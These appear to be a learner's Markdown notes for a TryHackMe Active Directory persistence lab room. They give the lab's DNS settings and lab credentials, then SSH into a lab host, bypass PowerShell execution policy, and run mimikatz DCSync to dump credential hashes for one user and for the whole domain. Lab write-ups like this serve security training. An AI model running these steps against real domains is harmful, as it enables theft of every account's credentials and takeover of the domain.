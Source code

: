 ```yaml
---
tags:
  - AD
  - THM
  - Pentesting
---
```

+# # Persisting Active Directory

## Task 1

```shell
cat /etc/resolv.conf
search za.tryhackme.com
nameserver 10.200.83.101 
nameserver 9.9.9.9

# Shorten name resolution timeouts to 1 second
options timeout:1
# Only attempt to resolve a hostname 2 times
options attempts:2
```

Verify functionality: `dig thmdc.za.tryhackme.loc` or  `nslookup thmdc.za.tryhackme.loc`

<http://distributor.za.tryhackme.loc/creds>

```shell
export AD=za.tryhackme.loc
export USERNAME=jason.jackson
export PASSWORD=Racer2018

ssh $AD\\$USERNAME@thmwrk1.$AD
```


## Task 2

```bash
# provided

export AD=za.tryhackme.loc
export adminUser=Administrator
export adminPass=tryhackmewouldnotguess1@

ssh $adminUser@$AD@thmwrk1.$AD

powershell.exe -ep bypass

C:\Tools\mimikatz_trunk\WIN32\mimikatz.exe
```

```powershell
# mimikatz

lsadump::dcsync /domain:za.tryhackme.loc /user:jason.jackson
log jason.jackson_dcdump.txt
lsadump::dcsync /domain:za.tryhackme.loc /all
```
